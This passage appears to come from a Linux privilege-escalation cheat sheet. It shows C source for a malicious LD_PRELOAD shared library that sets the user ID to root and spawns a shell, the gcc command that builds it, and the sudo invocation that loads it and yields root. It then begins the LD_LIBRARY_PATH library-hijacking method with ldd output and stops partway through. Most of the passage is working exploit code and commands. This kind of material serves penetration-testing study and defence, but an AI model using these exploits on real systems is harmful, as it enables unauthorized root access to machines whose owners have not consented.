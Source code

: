 Create a file (preload.c) with the following contents:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile preload.c to preload.so:

```bash
$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Set the `LD_PRELOAD` environment variable to the full path of the preload and run any permitted program using `sudo` as a result, file:

```bash
$ sudo LD_PRELOAD=/tmp/preload.so <program>
# id
uid=0(root) gid=0(root) groups=0(root)
```

### LD\_LIBRARY\_PATH

The `LD_LIBRARY_PATH` environment variable specifies which directories should be examined first for shared libraries.

The **ldd** command can be used to print a program's shared libraries (.so files):

```
ldd /usr/sbin/program_name
```

If we construct a shared library with the same name and set `LD_LIBRARY_PATH` to its parent directory, the program will load our shared library instead of the one utilized by the program.

#### Sudo LD\_LIBRARY\_PATH Privilege Escalation

1. Run **ldd** against the program file:

```
$ ldd /usr/sbin/program_name
    linux-vdso.so.1 => (0x00007fff063ff000)
    ...
    libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)
    libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000)
    libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f7d41570000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f7d42e84000)
```

> Hijacking shared objects using this method is hit or miss. Choose one from the list and try it, if it fails try another one.

